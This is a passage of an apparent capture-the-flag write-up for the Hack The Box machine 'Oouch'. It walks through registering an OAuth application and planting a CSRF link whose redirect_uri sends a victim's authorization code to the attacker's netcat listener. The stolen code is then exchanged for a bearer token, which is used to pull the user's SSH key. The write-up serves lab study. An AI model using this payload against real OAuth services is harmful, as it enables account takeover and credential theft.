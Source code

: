Going to `/oauth/applications` presents us with a login prompt and trying the credentials we found in qtc's documents doesn't work.

{{<figure src="/img/htb/oouch/web8000_applications.png" position=center caption="HTTP Basic Auth">}}

After some more enumeration, we find the `/oauth/applications/register` endpoint where the credentials worked.

We are then directed to the application registration page:

{{<figure src="/img/htb/oouch/web8000_applications_register.png" position=center caption="Application Registration Page">}}

Client id and client secret are provided by the application. Clicking on save will register our new application to the OAuth server:

{{<figure src="/img/htb/oouch/web8000_applications_created.png" position=center caption="Application Created!">}}

Now that our application is created, we use it with the CSRF in the contact form in order to trick the user to authorize our application. Once they do, we'll receive the authorization code (tied to their account) which we can then use to request an access token that will allow us to authenticate as them.

> Don't forget to setup a listener on the return URL to catch the authorization token

We can use the following payload:

```html
<a href="http://authorization.oouch.htb:8000/oauth/authorize/?client_id=dQ8riRsCow9njRJOLr35uzUg0imhn9SAq8o3bawX&response_type=code&redirect_uri=http://10.10.14.14/pwned&scope=read&allow=Authorize">click!</a>
```

> Notice `&allow=Authorize` (originally in the request POST body) was added to the URL parameters since this endpoint is said to allow the GET method.

After a few seconds, we get the authorization code on our netcat listener:

{{<figure src="/img/htb/oouch/nc_listener_auth_code.png" position=center caption="Authorization Code!">}}

Now we can request a token on the `/oauth/token` endpoint we found earlier:

{{<figure src="/img/htb/oouch/web8000_get_token.png" position=center caption="Got the Bearer token!">}}

Using this token, we can for example, access `/api/get_user`:

{{<figure src="/img/htb/oouch/web8000_api_getuser.png" position=center caption="Information about qtc">}}

After more enumeration for other api endpoints, we find `/api/get_sshkey`:

{{<figure src="/img/htb/oouch/web8000_api_getsshkey.png" position=center caption="qtc's ssh key">}}

Using the ssh key, we can login as qtc and retrieve the user flag:

{{<figure src="/img/htb/oouch/user_flag.png" position=center caption="User flag obtained !">}}

